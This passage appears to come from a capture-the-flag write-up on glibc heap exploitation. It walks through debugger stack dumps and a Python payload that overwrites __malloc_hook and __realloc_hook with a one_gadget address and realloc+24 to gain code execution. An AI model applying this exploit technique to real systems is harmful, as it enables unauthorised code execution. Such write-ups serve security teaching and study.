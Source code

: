 ```
malloc(3, 0x2e0-0x10)
malloc(3, 0x2e0-0x10)
```

We can see the `__realloc_hook` address is saved on stack:

```
0x00007ffcd4968f70│+0x0000: "D=malloc(720)\n"  ← $rax, $rsp, $rdi
0x00007ffcd4968f78│+0x0008: 0x00000a2930323728 ("(720)\n"?)
0x00007ffcd4968f80│+0x0010: 0x0000559462b382a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffcd4968f88│+0x0018: 0x0000559462b5a020  →  0x0000000000000000    <-- Chunk index 1
0x00007ffcd4968f90│+0x0020: 0x0000559462b7c020  →  0x0000000000000000    <-- Chunk index 2
0x00007ffcd4968f98│+0x0028: 0x00007f6549689b68  →  0x00007f654953bbf0  →  <realloc_hook_ini+0> endbr64
0x00007ffcd4968fa0│+0x0030: 0x0000000000000000
0x00007ffcd4968fa8│+0x0038: 0x0000000000000000
```

So we successfully malloc with `__realloc_hook`. Now we just need to change value of `__realloc_hook` and `__malloc_hook` and that’s the easiest part in the world. Remember that we will write address of `realloc + 24` to `__malloc_hook` so it just pop, not push and the stack is remain until 6 `pop`, also the constraints is satisfied:

```python
payload = p64(libc.address + 0xe6aee)
payload += p64(libc.sym['realloc'] + 24)
gets(3, payload)

malloc(4, 0x10)
```

Running script and stop before first `pop`, the stack look like this

```
0x00007ffc992c5ed0│+0x0000: 0x0000556efad732a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffc992c5ed8│+0x0008: 0x0000556efad95020  →  0x0000000000000000    <-- Chunk index 1
0x00007ffc992c5ee0│+0x0010: 0x0000556efadb7020  →  0x0000000000000000    <-- Chunk index 2
0x00007ffc992c5ee8│+0x0018: 0x00007fa6716c4b68  →  0x00007fa6715bfaee  →  <execvpe+638> mov rdx, r12
0x00007ffc992c5ef0│+0x0020: 0x0000000000000000
0x00007ffc992c5ef8│+0x0028: 0x0000000000000000
0x00007ffc992c5f00│+0x0030: 0x0000000000000000
0x00007ffc992c5f08│+0x0038: 0x0000000000000000
```

The assembly code at pop look like this:

```
gef➤  x/10i $rip
=> 0x7fa671577269 <__GI___libc_realloc+617>:  pop    rbx
   0x7fa67157726a <__GI___libc_realloc+618>:  pop    rbp
   0x7fa67157726b <__GI___libc_realloc+619>:  pop    r12
   0x7fa67157726d <__GI___libc_realloc+621>:  pop    r13
   0x7fa67157726f <__GI___libc_realloc+623>:  pop    r14
   0x7fa671577271 <__GI___libc_realloc+625>:  pop    r15
   0x7fa671577273 <__GI___libc_realloc+627>:  jmp    rax
```
